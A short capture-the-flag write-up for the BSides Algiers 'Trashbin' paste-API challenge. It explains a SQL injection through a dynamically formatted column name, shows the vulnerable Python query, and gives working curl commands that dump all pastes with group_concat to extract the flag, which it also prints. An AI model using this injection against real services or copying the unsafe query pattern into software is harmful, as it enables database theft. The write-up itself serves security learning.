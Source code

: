 # Trashbin

**`Author:`** [hfz](https://hfz1337.github.io)

## Description

GUI's are a lie, they're just front-ends to the shell.  
I made a simple API for non-GUI users to share their pastes.  
easy usage, much privacy... security?? iii have no idea.

## Write-up (brief)

A not so classic SQL injection that a lot of people missed (even SQLmap).  
The injection point is in the paste `attribute`, so it will look something like this:
```
curl -X GET http://chall.bsidesalgiers.com:8001/paste/{paste_id}/{payload}
```
Doing this black box might not be so obvious at first sight, let's take a look at the relevant part of the source code to understand what was going on:
```python
result = self.execute_query(
    "SELECT {} FROM pastes WHERE id=?".format(field), (paste_id,)
)
```
Now you're probably noticing how easy this is. Although the developer used prepared queries, he chose to make the column name dynamic, and construct the query using untrusted data.  
We can leak all the pastes using `group_concat`, then filter them out to get the flag.
```
# Create a new paste and get its ID (we need a valid paste, otherwise it would return: "no such paste"
paste_id=$(curl -sX POST -H "Content-type: application/json" -d '{"title": "test", "text": "test"}' http://chall.bsidesalgiers.com:8001/paste/new | jq .url | tr -d '"' | cut -d'/' -f3)
# Leak the flag
curl -sX GET "http://chall.bsidesalgiers.com:8001/paste/${paste_id}/(select%20group_concat(text)%20from%20pastes)" | grep -o 'shellmates{[^}]\+}'
```

Flag: `shellmates{2021_y3t_sQl_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}`
